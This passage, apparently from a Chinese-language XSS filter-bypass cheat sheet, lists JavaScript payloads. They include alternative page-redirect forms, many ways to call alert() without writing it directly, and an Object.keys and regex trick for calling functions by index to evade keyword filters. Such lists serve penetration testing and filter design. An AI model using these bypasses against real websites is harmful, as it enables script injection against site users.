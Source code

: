 ### 使用另一种重定向方式绕过

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

### 使用另一种执行alert的方式绕过

From [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040) tweet.

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

From [@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - 使用全局变量bypass

Object.keys() 方法返回特定对象自己的属性名称的数组，其顺序与普通循环中的顺序相同。 这意味着我们可以通过使用**索引号而不是函数名称**来访问任何 JavaScript 函数。

```javascript
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }
// 5
```

然后调用alert是：

```javascript
Object.keys(self)[5]
// "alert"
self[Object.keys(self)[5]]("1") // alert("1")
```

我们可以使用正则表达式找到“alert”，例如 ^a[rel]+t$ :

```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}} //新函数 a() 上的绑定函数alert

// 你可以使用函数a()与对象值

self[Object.keys(self)[a()]]("1") // alert("1")
```
